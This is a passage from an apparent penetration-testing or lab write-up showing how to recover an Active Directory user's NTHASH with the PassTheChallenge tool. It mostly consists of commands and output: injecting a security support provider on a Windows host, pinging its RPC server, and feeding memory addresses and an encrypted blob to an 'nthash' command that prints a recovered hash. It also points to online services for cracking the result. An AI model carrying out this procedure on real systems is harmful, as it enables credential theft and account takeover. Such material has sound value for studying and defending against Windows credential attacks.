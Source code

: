 ```bash
                Context Handle: 0x254f00637c0
                Proxy Info: 0x7ff995ae9448
                Encrypted blob: a00000000000000008000000640000000100000001010000000000006a242a25a189909a3abd8db27de4c0579cb4974f6c8195e5fd9fa25af807de6cc3f7564b29c32dc32bde686a416a64ce0100000000000000000000000000000001800000340000004e746c6d48617368f3be3d31ad691207dd7b0a5f7db83ed3bdc8f51c2f192f425ee3a3744bd65b3d103f60f56380ce66a9d565d36d457f3d44b70c42
        DPAPI: 54c7b03dcb81f702018503ea1b1bde1200000000
```

We got the following Content Handle address: **0x254f00637c0** and the following Proxy Info address: **0x7ff995ae9448**. Using these with the encrypted blob, we can retrieve back the NTHASH of powercorp\MrX using the PassTheChallenge tool.

## Injecting SPP

Back on the target system, we upload the PassTheChallenge program. We will inject the new SPP using:

```bash
PS C:\Users\Admin\Downloads\ptc> .\PassTheChallenge.exe inject
Pass-the-Challenge (PtC) - by Oliver Lyak (ly4k)

[+] Package seems to be loaded
```

Now that have successfully loaded the SecurityPackage, we can use “ping” to verify if there is a connection to the RPC server:

```bash
PS C:\Users\Admin\Downloads\ptc> .\PassTheChallenge.exe ping
Pass-the-Challenge (PtC) - by Oliver Lyak (ly4k)

[+] Server is alive
```

## Recovering the NTHASH of powercorp\MrX

With everything setup, we can now recover the NTHASH of powercorp\MrX using PassTheChallenge.

```bash
PS C:\Users\Admin\Downloads\ptc> .\PassTheChallenge.exe nthash 0x254f00637c0:0x7ff995ae9448 a00000000000000008000000640000000100000001010000000000006a242a25a189909a3abd8db27de4c0579cb4974f6c8195e5fd9fa25af807de6cc3f7564b29c32dc32bde686a416a64ce0100000000000000000000000000000001800000340000004e746c6d48617368f3be3d31ad691207dd7b0a5f7db83ed3bdc8f51c2f192f425ee3a3744bd65b3d103f60f56380ce66a9d565d36d457f3d44b70c42
Pass-the-Challenge (PtC) - by Oliver Lyak (ly4k)

[+] Server is alive
[+] Response:

NTHASH:535549550D915078B4F2F4334C1992E00B3693107DC5A855
```

We cannot use this NTHASH to authenticate, but we are able to retrieve the NT back using a online tool like [crack.sh](https://crack.sh) or [shuck.sh](https://shuck.sh).
